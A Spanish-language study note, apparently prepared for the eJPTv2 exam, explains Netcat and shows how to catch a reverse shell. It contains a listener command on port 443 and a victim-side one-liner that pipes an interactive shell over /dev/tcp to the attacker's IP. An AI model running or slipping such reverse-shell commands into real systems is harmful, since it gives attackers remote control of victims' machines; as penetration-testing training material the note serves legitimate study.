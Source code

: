 ¿Que es Netcat?: Netcat es una herramienta de red que permite abrir puertos TCP/UDP en un HOST, asociar una shell a un puerto específico y forzar conexiones UDP/TCP. Es útil tanto para ataques como para auditores de seguridad de re  
  

> [!important] https://www.revshells.com - Este es un generador de shell inversa en línea que permite a cualquier persona configurar sus direcciones IP, puertos y shell de elección para sus payloads (cargas útiles) .

  

![[../raw/main/Imagenes/image.png]]

 
  
  

  
Ponemos el siguiente comando en nuestra maquina atacante **nc -nlvp 443** . Con esto ponemos el Netcat en escucha en el puerto 443.

  
  
`nc -nlvp 443`  
  

> [!important] `nc`: Invoca **la herramienta** Netcat.<br><br><br>`-n`: **Desactiva la resolución de nombres DNS**. Esto significa que solo se usarán direcciones IP sin intentar resolver nombres de dominio.<br><br><br>`-``l`: **Activa el modo de escucha** (listen), lo que **convierte Netcat en un servidor que espera conexiones entrantes**.<br><br><br>`-v`: Habilita el modo "verboso" (verbose), proporcionando **información** detallada **sobre las conexiones**.<br><br><br>`-``p 443`: Especifica el **puerto** en el **que** Netcat **estará escuchando**, en este caso, el puerto 443 (comúnmente utilizado por HTTPS).<br><br>

  

![[https://github.com/TerragensPL/Apuntes-para-Examen-eJPTv2/raw/main/Imagenes/9d3054ff-5a86-428a-bcc8-294f30a5ddb7.png]]

  

Si conseguimos acceso a muestra maquina victima debemos inyectar el comando que habíamos conseguido con el reverse shell generator.  
  
  
`sh -i >& /dev/tcp/192.168.1.49/443 0>&1`

  

![./raw/main/Imagenes/image 1.png]]

  

Nuestra maquina atacante Kali reacciona a la señal de la maquina victima, originado que tengamos abierta una terminal interactiva sobre la maquina victima.

  

![[../raw/main/Imagenes/image 2.png]]

![[/raw/main/Imagenes/image 3.png]]